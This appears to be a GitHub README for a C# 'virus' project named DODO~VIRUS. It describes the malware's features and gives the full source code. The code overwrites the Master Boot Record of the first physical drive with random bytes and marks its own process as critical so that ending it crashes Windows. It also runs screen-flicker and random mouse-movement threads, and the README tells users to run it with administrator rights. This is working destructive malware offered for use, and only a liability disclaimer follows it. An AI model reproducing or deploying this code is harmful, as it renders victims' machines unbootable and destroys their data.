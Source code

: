# DODO~VIRUS

![Virus Preview](https://i.ibb.co/QkBqtSC/D51-B5-ECC-D63-E-43-C1-925-A-1-D380-E380584.png)

This project contains C# code that implements various bizarre effects on the system, inspired by a virus called **DOMO**, created by an individual named **ABOLHB**. The `MasonClass` code is designed to demonstrate specific functionalities that include manipulating system resources in a way that simulates various disruptive behaviors. The key features of this code include:

## Code Description

### Key Functionalities

1. **Writing to the MBR**:
   - The code includes a method that modifies the Master Boot Record (MBR) of the primary hard drive. Writing to the MBR can disrupt the boot process of a system, which can lead to data loss or inaccessibility.
   - The function generates random bytes and writes them to the MBR, essentially overwriting critical boot information. This is done through direct file access to the physical drive.

2. **Creating Screen Effects**:
   - The code employs GDI (Graphics Device Interface) functions to create visual disturbances on the screen. It achieves this by continuously drawing random areas of the screen with varying opacities, creating a flickering effect that can be quite disorienting.
   - A dedicated thread is started to handle these visual effects, allowing the main application to run concurrently without freezing the user interface.

3. **Random Mouse Movement**:
   - The code simulates mouse movement by changing the cursor's position to random coordinates on the screen. This is accomplished by invoking Windows API calls that manipulate the cursor's location.
   - Another thread manages this functionality, causing the mouse to move unpredictably, which can be frustrating for users attempting to interact with their system.

### Usage Instructions

- This code should be run on a Windows system with administrative privileges due to the nature of the operations performed, particularly writing to the MBR.
- Ensure that you have appropriate permissions and are aware of the risks involved in modifying system-level components.

![Doomoo Image](https://i.ibb.co/4156j7R/doomoo.png)

### Code Implementation

Here’s the complete implementation of the MasonClass:

```csharp
using System;
using System.Runtime.InteropServices;
using System.Threading;
using System.Diagnostics;
using System.IO;

class MasonClass
{
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    static extern IntPtr GetDC(IntPtr hWnd);
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    static extern int ReleaseDC(IntPtr hWnd, IntPtr hDC);
    [DllImport("gdi32.dll", CharSet = CharSet.Auto)]
    static extern bool BitBlt(IntPtr hdcDest, int nXDest, int nYDest, int nWidth, int nHeight, IntPtr hdcSrc, int nXSrc, int nYSrc, uint dwRop);
    [DllImport("user32.dll")]
    static extern int GetSystemMetrics(int nIndex);
    [DllImport("user32.dll")]
    static extern void SetCursorPos(int X, int Y);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern IntPtr CreateFile(
        string lpFileName,
        uint dwDesiredAccess,
        uint dwShareMode,
        IntPtr lpSecurityAttributes,
        uint dwCreationDisposition,
        uint dwFlagsAndAttributes,
        IntPtr hTemplateFile);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteFile(
        IntPtr hFile,
        byte[] lpBuffer,
        uint nNumberOfBytesToWrite,
        out uint lpNumberOfBytesWritten,
        IntPtr lpOverlapped);
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool CloseHandle(IntPtr hObject);

    const int SM_CXSCREEN = 0;
    const int SM_CYSCREEN = 1;
    const uint NOTSRCERASE = 0x001100A6;
    const uint GENERIC_WRITE = 0x40000000;
    const uint OPEN_EXISTING = 3;

    [DllImport("ntdll.dll", SetLastError = true)]
    private static extern int NtSetInformationProcess(IntPtr processHandle, int processInformationClass, ref int processInformation, int processInformationLength);
    private const int ProcessInformationClass = 29;

    static void Main()
    {
        MasonWriteMBR(); // Call to write to MBR
        Process currentProcess = Process.GetCurrentProcess();
        IntPtr handle = currentProcess.Handle;
        int isCritical = 1; 
        NtSetInformationProcess(handle, ProcessInformationClass, ref isCritical, sizeof(int));
        int screenWidth = GetSystemMetrics(SM_CXSCREEN);
        int screenHeight = GetSystemMetrics(SM_CYSCREEN);
        MasonStartEffect(screenWidth, screenHeight); // Start visual effects
        MasonMoveMouseRandomly(screenWidth, screenHeight); // Start mouse movement
        while (true) // Keep the application running
        {
            Thread.Sleep(1000);
        }
    }

    static void MasonWriteMBR()
    {
        using (FileStream fs = new FileStream(@"\\.\PhysicalDrive0", FileMode.Open, FileAccess.Write))
        {
            byte[] mbrData = new byte[512]; // Buffer for MBR data
            Random rand = new Random();
            rand.NextBytes(mbrData); // Fill buffer with random bytes
            fs.Write(mbrData, 0, mbrData.Length); // Write to MBR
        }
    }

    static void MasonStartEffect(int screenWidth, int screenHeight)
    {
        Random rand = new Random();
        new Thread(() =>
        {
            while (true)
            {
                IntPtr hdc = GetDC(IntPtr.Zero);
                BitBlt(hdc, rand.Next(15), rand.Next(15), screenWidth, screenHeight, hdc, rand.Next(15), rand.Next(15), NOTSRCERASE);
                ReleaseDC(IntPtr.Zero, hdc);
                Thread.Sleep(10);
            }
        }).Start();
    }

    static void MasonMoveMouseRandomly(int screenWidth, int screenHeight)
    {
        Random rand = new Random();
        new Thread(() =>
        {
            while (true)
            {
                int x = rand.Next(0, screenWidth);
                int y = rand.Next(0, screenHeight);
                SetCursorPos(x, y); // Move mouse to random position
                Thread.Sleep(300); // Pause before next movement
            }
        }).Start();
    }
}
```
---
We hereby declare that we disclaim any liability for any improper use of the software Thank you for your understanding
